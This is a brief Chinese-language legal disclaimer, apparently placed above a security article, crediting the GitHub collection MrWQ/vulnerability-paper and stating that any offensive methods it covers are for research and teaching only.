**免责声明：****文章中涉及的程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！！**
======================================================================================================

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
